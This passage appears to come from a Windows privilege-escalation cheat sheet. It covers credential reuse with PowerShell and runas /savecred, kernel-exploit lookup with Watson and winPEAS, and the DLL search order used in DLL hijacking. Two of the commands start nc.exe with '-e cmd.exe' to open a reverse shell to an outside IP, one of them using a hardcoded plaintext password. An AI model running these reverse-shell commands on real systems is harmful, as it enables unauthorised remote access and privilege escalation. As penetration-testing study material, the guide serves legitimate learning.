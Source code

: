 $secpasswd = ConvertTo-SecureString "password321" -AsPlainText -Force

$mycreds = New-Object System.Management.Automation.PSCredential ("john", $secpasswd)

$computer = "GHOST"

[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.0.114 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

If `cmdkey /list` returns entries, it means that you may able to runas certain user who stored his credentials in windows.

runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"

## Windows Kernel Exploitation

If the OS is updated regularly then these exploit will not be of much help. You can use Watson to check for vulnerabilities due to missing patches. Watson is already integrated with winPEAS. In case you find any vulnerability you can download the same from the below repository. Make sure you download the correct architecture for your target. In case you need to compile the binary you can use Kali to cross-compile.

https://github.com/SecWiki/windows-kernel-exploits

## DLL Hijacking

A windows program looks for DLLs when it starts. If these DLL’s do not exist then it is possible to escalate privileges by placing a malicious DLL in the location where the application is looking for.

Generally, a Windows application will use pre-defined search paths to find DLL’s and it will check these paths in a specific order.

1. The directory from which the application loaded
2. 32-bit System directory (C:\Windows\System32)
3. 16-bit System directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. The current working directory (CWD)
6. Directories in the PATH environment variable (first system and then user)
![1*_BXH1Via6L41eMidTvXRdQ.png](../_resources/d87c00a3fe8d613fa181a4889993627b.png)
![1*_BXH1Via6L41eMidTvXRdQ.png](../_resources/ab7b58fa205b9508b652e0bba323e5b7.png)
